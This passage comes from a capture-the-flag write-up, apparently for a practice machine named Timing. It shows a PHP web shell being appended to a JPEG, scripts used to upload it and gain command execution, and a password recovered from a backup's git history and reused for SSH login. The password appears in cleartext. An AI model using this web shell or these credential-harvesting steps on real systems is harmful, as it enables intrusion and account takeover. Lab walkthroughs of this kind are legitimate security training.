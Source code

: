 ```python
        print(response.text)
    else:
        print("Upload failed")


image_upload()
```

![exploit.py](/assets/img/posts/timing/exploit.png)

## Privilege Escalation

### Aaron user

We create our backdoor image then we run hashes_creation.py first then upload_image.py. After awhile we are able to execute commands over the server as "www-data" user. Then while enumerating over the system files and directories, we find that there is a "source_files_backup.zip" at /opt directory. We download it to our local machine and unzip it.

```bash
echo '<?php system($_GET[cmd]);?>' >> backdoor.jpg
python3 hashes_creation.py
python3 image_upload.py

# On timing machine
ls /opt
cp /opt/source_files_backup.zip .

# On local machine
wget http://10.10.11.135/source_files_backup.zip
```

![backup_file](/assets/img/posts/timing/20.png)

After unzipping it, it includes a hidden git directory where we can use git bash commands for enumeration. We find that there is an updated file called "db_conn.php" that contains an updated password.

```bash
ls -la
git log
git show
```

![backup_file](/assets/img/posts/timing/21.png)

We used both of the found passwords to login to ssh as root but it failed. We try the same passwords for aaron user to login to ssh and the password of "S3cr3t_unGu3ss4bl3_p422w0Rd" works successfully. As well as, we got the user flag.

```bash
ssh aaron@10.10.11.135
ls
cat user.txt
```
